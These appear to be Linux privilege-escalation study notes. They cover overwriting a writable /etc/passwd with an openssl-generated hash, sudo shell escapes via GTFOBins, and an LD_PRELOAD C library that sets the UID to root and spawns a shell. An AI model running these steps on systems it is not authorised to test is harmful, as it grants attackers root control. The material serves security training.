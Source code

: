 [+] Technique: Edit /etc/passwd file<br>
[+] passwd it's writable/Readable<br>
[+] Steps<br>


- generate password using `openssl`

```bash
openssl passwd 1234
```

-  replace generated password in /etc/passwd  (replace x  with generated password)

- login using `su`

```bash
su root
```


***`Sudo - Shell Escape Sequences`***

[+] Technique:  exploit weakness with binary <br>
[+] Link: [https://gtfobins.github.io](https://gtfobins.github.io/)<br>



***` Sudo - Environment Variables`***

Sudo can be configured to inherit certain environment variables from the user's environment.


- check which env sudo they use


```bash
user@debian:/tmp$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=`LD_PRELOAD`, env_keep+=`LD_LIBRARY_PATH`

```

`LD_PRELOAD`: loads a shared object before any others when a program is run
`LD_LIBRARY_PATH`: provides a list of directories where shared libraries are searched for first

[+] setps<br>
- create lib file

*preload.c*

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}

```
